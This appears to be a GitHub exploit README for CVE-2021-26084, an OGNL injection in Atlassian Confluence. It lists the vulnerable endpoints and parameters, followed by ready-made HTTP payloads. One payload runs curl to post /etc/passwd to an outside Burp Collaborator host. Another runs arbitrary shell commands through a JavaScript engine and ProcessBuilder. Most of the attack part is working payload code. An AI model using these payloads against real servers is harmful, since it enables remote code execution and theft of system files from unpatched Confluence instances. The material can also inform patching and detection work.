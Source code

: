 ### url
```
URI Path                                   Vulnerable Parameters 
--------------------------------------------------------------------- 
/users/darkfeatures.action                 featureKey 
/users/enabledarkfeature.action            featureKey 
/users/disabledarkfeature.action           featureKey 
/login.action                              token 
/dologin.action                            token 
/signup.action                             token 
/dosignup.action                           token 
/pages/createpage-entervariables.action    queryString, linkCreation 
/pages/doenterpagevariables.action         queryString 
/pages/createpage.action                   queryString 
/pages/createpage-choosetemplate.action    queryString 
/pages/docreatepagefromtemplate.action     queryString 
/pages/docreatepage.action                 queryString 
/pages/createblogpost.action               queryString 
/pages/docreateblogpost.action.            queryString 
/pages/copypage.action                     queryString 
/pages/docopypage.action                   queryString 
/plugins/editor-loader/editor.action       syncRev
```
Ref: https://www.zerodayinitiative.com/blog/2021/9/21/cve-2021-26084-details-on-the-recently-exploited-atlassian-confluence-ognl-injection-bug
其中除两个重要的之外，其他都是需要登录的。


### Payload

```http
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 127.0.0.1:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 215

queryString=lalalala%5cu0027,(linkCreation)(0xd0ff90),%5cu0027lalalala&linkCreation=@java.lang.Runtime@getRuntime().exec('curl -X POST --data-binary @/etc/passwd x.burpcollaborator.net')
```

```http
queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027
```


### Demo
![](imgs/WechatIMG4182.png)
![](imgs/WechatIMG4183.png)
![](imgs/WechatIMG4189.png)
![](imgs/WechatIMG4208.png)
![](imgs/WechatIMG4214.png)
![](imgs/WechatIMG4216.png)
![](imgs/WechatIMG4225.png)




### Ref
 - https://github.com/projectdiscovery/nuclei-templates/commit/3a303530427f974dadc69471d3946ace0a776310
 - https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
 - https://securitylab.github.com/research/bean-validation-RCE/
 - https://twitter.com/pwntester/status/1433888159083995136
 - https://twitter.com/iamnoooob/status/1431739398782025728
 - [[Atlassian Confluence CVE-2021–26084]::: The other side of bug report!](https://tradahacking.vn/atlassian-confluence-cve-2021-26084-the-other-side-of-bug-bounty-45ed19c814f6)

